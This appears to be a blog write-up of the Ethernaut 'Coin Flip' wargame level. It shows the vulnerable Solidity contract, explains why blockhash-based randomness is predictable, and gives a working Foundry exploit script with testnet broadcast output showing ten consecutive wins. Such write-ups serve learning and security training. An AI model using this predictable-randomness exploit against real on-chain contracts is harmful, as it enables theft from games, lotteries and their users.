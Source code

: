 ```yaml
---
layout: post
title: "[Ethernaut] Coin Flip"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Using to `blackhash`value to generate random numbers.

Since this is accessible not only to the contract but also to external users, it becomes predictable.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/CoinFlip.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip coinflip_) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip_.flip(side);
    }
}

contract CoinFlipSol is Script {
    CoinFlip public coinflip_ = CoinFlip(0x97Cf73B713944bD171aEd799FEDdED4BC5Fd3765);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex(coinflip_);
        console.log("Win counts: ", coinflip_.consecutiveWins());
        
        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/CoinFlipSol.sol --tc CoinFlipSol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Win counts:  10

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002187102 gwei

Estimated total gas used for script: 123189

Estimated amount required: 0.000000269426908278 ETH

==========================

##### holesky
✅  [Success] Hash: 0x0a5c9241d43f66408948fff9f14bad881a6f1717557f05d693967085b33fc4c9
Contract Address: 0x0BBe439AF9BC57d2358965e1d78B2831290038F9
Block: 3672028
Paid: 0.000000207251214534 ETH (94761 gas * 0.002187094 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000207251214534 ETH (94761 gas * avg 0.002187094 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Coin_Flip/complete.png)

![Image win]({{site.url}}/images/2025-04-18-Coin_Flip/win.png)